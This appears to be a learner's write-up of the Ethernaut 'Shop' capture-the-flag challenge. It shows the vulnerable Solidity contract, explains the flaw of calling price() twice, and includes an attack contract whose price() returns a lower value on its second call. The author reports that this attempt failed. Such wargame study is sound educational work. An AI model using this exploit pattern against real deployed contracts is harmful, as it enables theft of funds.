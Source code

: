 Difficulty 4/10

Сan you get the item from the shop for less than the price asked?

##### Things that might help:

-   `Shop` expects to be used from a `Buyer`
-   Understanding restrictions of view functions

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

https://docs.soliditylang.org/en/v0.6.12/contracts.html#view-functions
If the compiler’s EVM target is Byzantium or newer (default) the opcode `STATICCALL` is used when `view` functions are called, which enforces the state to stay unmodified as part of the EVM execution. For library `view` functions `DELEGATECALL` is used, because there is no combined `DELEGATECALL` and `STATICCALL`. This means library `view` functions do not have run-time checks that prevent state modifications. This should not impact security negatively because library code is usually known at compile-time and the static checker performs compile-time checks.

the vulnerability is in the fact _buyer.price() is called once for the check and another time for setting `price` 

```
if (_buyer.price() >= price && !isSold) { // price is checked here
      isSold = true;
      price = _buyer.price(); // price is set here
}
```

Tried to create a solver on remix by changing the returned price on any call after the first time _buyer.price() call

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Shop {
    function buy() external;
}


contract Buyer {

  bool public called = false;
  Shop public shop;

  constructor (address shopaddress) public {
      shop = Shop(shopaddress);
  }

  function price() public returns (uint) {
      if (called == false) {
          called = true;
          return 100;
      } else {
          return 0;
      }
  }

  function callShop() public {
      shop.buy();
  }

}
```

but this failed when trying to call shop.buy()

unfortunately had to look up answer and found that the challenge has been changed since the last writeup. It used to have a gas requirement but now just checks price.
https://medium.com/@safeZ1/ethernaut-lvl-21-shop-walkthrough-how-to-use-assembly-code-in-solidity-and-abuse-solidity-d8ced86c0eb4

the assembly in this link does not work with remix so I found this writeup that calls `isSold()` in assembly as well: https://medium.com/@safeZ1/ethernaut-lvl-21-shop-walkthrough-how-to-use-assembly-code-in-solidity-and-abuse-solidity-d8ced86c0eb4

both writeups can be found on OpenZeppelin's Ethernaut forum post here: https://forum.openzeppelin.com/t/ethernaut-community-solutions/561

seems like there was an issue with this level's gas that was addressed here:
https://github.com/OpenZeppelin/ethernaut/issues/156

could not solve the challenge. tried to deploy the solution by openzeppelin but it didnt work either:
https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/attacks/ShopAttack.sol
